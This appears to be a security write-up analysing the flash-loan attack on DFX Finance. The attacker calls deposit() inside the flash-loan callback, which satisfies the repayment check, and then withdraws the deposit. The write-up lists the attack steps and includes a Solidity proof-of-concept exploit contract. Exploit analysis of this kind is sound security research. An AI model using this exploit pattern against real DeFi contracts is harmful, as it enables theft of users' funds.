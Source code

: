   ![image](https://user-images.githubusercontent.com/53768199/215330695-1b1fa612-4f01-4c6a-a5be-7324f464ecb1.png)

  As you can see, the attacker called `deposit` function in the victim contract and it will receive the numeraire assets that the pool supports and mint curves token. As mentioned in the graph above, `USDC` and `XIDR` are sent to the victim via `transferFrom`.
  
  ![image](https://user-images.githubusercontent.com/53768199/215330576-d15642f7-5819-4e83-a8c8-1d3a48ad8c6d.png)
  
  At this point, it is known that the completion of the flash loan is determined by checking whether the corresponding token assets in the contract are greater than or equal to the state before the execution of the flash loan callback. And `depoit` function will make this validation complete.

  ```solidity
  require(balance0Before.add(fee0) <= balance0After, 'Curve/insufficient-token0-returned');
  require(balance1Before.add(fee1) <= balance1After, 'Curve/insufficient-token1-returned');
  ```

  It should be noticed that the attacker prepared some `USDC` and `XIDR` tokens for the flash loan fee mechanism before the attack. This is why the attacker's deposit is relatively higher than the borrowed amount. So the total amount for `deposit` invocation is the amount borrowed with flash loan plus the fee. The validation in the `flash` function can be passed with this.

  As a result, the attacker invoked `deposit` in the callback function, bypassed the validation in the flash loan and left the record for deposit. After all these operations, attacker withdrew tokens.

  In summary, the whole attack flow is:
  1. Prepare some `USDC` and `XIDR` tokens in advance.
  2. Using `viewDeposit()` to get the number of assets for later `deposit()`.
  3. Flash `USDC` and `XIDR` tokens based on the return value in step 2.
  4. Invoke `deposit()` function in the flash loan callback .
  5. Since we have a deposit record in the previous step, now withdraw tokens.
  


  The full PoC implementation：  
  ```solidity
  contract EXP {
      uint256 amount;
      function testExploit() public{
        uint[] memory XIDR_USDC = new uint[](2);
        XIDR_USDC[0] = 0;
        XIDR_USDC[1] = 0;
        ( , XIDR_USDC) = dfx.viewDeposit(200_000 * 1e18);
        dfx.flash(address(this), XIDR_USDC[0] * 995 / 1000, XIDR_USDC[1] * 995 / 1000, new bytes(1)); // 5% fee
        dfx.withdraw(amount, block.timestamp + 60);
    }

      function flashCallback(uint256 fee0, uint256 fee1, bytes calldata data) external{
        (amount, ) = dfx.deposit(200_000 * 1e18, block.timestamp + 60);
    }
  }
  ```

  More detailed codebase can be found in the DefiHackLabs repo： [DFX_exp.sol](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/DFX_exp.sol)
